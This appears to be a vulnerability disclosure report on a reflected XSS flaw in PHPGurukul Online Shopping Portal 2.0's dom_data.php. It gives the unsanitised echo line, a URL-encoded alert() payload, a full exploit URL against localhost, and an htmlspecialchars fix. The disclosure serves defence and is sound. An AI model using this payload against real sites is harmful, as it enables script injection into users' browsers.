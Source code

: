 # [XSS vulnerability] found in Online Shopping Portal 2.0 - (dom_data.php)

Affected Project: **Online Shopping Portal**

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/shopping-portal-free-download/)

Version: 2.0

Updated: 06 June 2024

Vulnerable path/file: admin/assets/plugins/DataTables/media/unit_testing/templates/dom_data.php

Injection parameter: `scripts`

<br />

Size: 30.5 MB

Sha256: 127e719bf4236a9140f146dd7a6ae54f2a9234b9e6f0aeda240e7a4905c6e73c

<br />

## Vulnerability Description:
The issue arises in the `$aScripts[$i]` variable that can be influenced by user input directly echoing the constructed `<script>` tag into the HTML output, including the user-controlled part within the src attribute without any sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
echo '<script type="text/javascript" language="javascript" src="../'.$aScripts[$i].'?rand='.rand().'"></script>'
```

<br />

## Injection Payload Tested:

We need to set the `scripts` to an encoded url payload to make it work:
```
%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

## Execution:

When the browser parses this, it executes the `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `dom_data.php` looks like:

<br />

![dom_data.php](https://i.postimg.cc/NjLgtHFk/1.png)

<br />

Then we can add our payload `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E`:

```
http://localhost/shopping/admin/assets/plugins/DataTables/media/unit_testing/templates/dom_data.php?scripts=%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

After submitting the url with the payload `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/439s7RzK/2.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
echo '<script type="text/javascript" language="javascript" src="../' . htmlspecialchars($aScripts[$i], ENT_QUOTES, 'UTF-8') . '?rand=' . rand() . '"></script>';
```

<br />

> One Click Can Change Everything: Be Secure.
